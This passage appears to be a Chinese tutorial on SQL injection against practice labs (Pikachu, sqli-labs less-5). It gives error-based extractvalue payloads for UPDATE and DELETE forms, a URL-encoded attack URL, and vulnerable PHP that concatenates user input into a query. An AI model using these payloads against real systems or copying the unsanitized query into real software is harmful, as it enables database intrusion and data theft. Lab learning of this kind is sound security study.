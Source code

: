 ![](https://gitee.com/YatJay/image/raw/master/img/202202121306432.png)

#### 查询指定数据

略

### update

UPDATE的注入同理，也是可以用上述同样的payload，需要注意的是，填写update表单的时候记得每一栏都要填上再点submit，不然是不执行的，这个是靶场后端代码的问题。

### delete

不难发现这里点击删除的按钮会get方式发送id参数，同时id参数为一个数字类型，所以同样可以报错函数来触发回显。构造payload

```sql
 or extractvalue(1,concat(0x7e,database()))#
```

url编码后拼接在url参数后面

```sql
http://xxxxxx/vul/sqli/sqli_del.php?id=61%20or%20extractvalue(1%2cconcat(0x7e%2cdatabase()))#
//访问后，database()函数成功执行并在报错中回显，注入成功。
```

XPATH syntax error: '~pikachu'

报错注入 floor注入（可参考https://www.cnblogs.com/sfriend/p/11365999.html）

floor()报错注入是利用floor,count,group by冲突报错，是当这三个函数在特定情况一起使用产生的错误。了解原理之后你会发现这是一个非常巧妙的方法。



![](https://gitee.com/YatJay/image/raw/master/img/202202112119037.png)

## sqlilabs-less5注入测试(布尔盲注)

从less-5的源码可以看到，尽管SQL语句使用了select查询，但是在返回界面不显示查询结果相关的东西，而是对查询结果做判断之后输出其他东西。

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysqli_query($con, $sql);
$row = mysqli_fetch_array($result, MYSQLI_BOTH);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="3" color="#FFFF00">';
	print_r(mysqli_error($con));
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	}
```
